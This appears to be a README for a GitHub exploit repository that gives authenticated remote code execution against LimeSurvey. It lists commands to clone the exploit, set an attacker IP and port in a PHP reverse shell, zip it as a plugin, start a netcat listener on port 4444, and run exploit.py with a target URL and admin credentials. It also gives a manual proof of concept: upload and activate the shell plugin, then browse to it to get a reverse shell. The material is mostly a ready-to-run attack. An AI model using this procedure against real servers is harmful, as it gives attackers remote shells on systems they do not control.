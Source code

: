 ### ***You can use exploit.py for automatic exploitation.***
1. git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.git

2. cd Limesurvey-RCE

3. nano php-rev.php                          # Add the IP and the port for your reverse_shell:   Line 5 $ip = '192.168.49.68';     Line 6    $port = 4444;   

4. zip config.xml php-rev.php > lime.zip     # Create a zip file containing both the config.xml + php-rev.php

5. nano exploit.py                           # Add the proper location of your zip file: Line 64: filehandle = open("/home/kali/Limesurvey-RCE/lime.zip",mode = "rb") 

6. nc -lvnp 4444

7. python exploit.py http://customers-survey.marketing.pg admin password 80

#### Usage: python exploit.py URL username password port
#### Example Usage: python exploit.py http://192.26.26.128/limesurvey admin password 80

**LimeSurvey Authenticated RCE**
Proof of Concept:
1. Create your files (config.xml and php reverse shell files)
2. Create archive with these files
3. Login with credentials
4. Go Configuration -> Plugins -> Upload & Install
5. Choose your zipped file
6. Upload
7. Install
8. Activate plugin
9. Start your listener
10. Go url+{upload/plugins/#Name/#Shell_file_name}
11. Get reverse shell :shipit:

### ***You can use exploit.py for automatic exploitation.***
#### Usage: python exploit.py URL username password port
#### Example Usage: python exploit.py http://192.26.26.128/limesurvey admin password 80


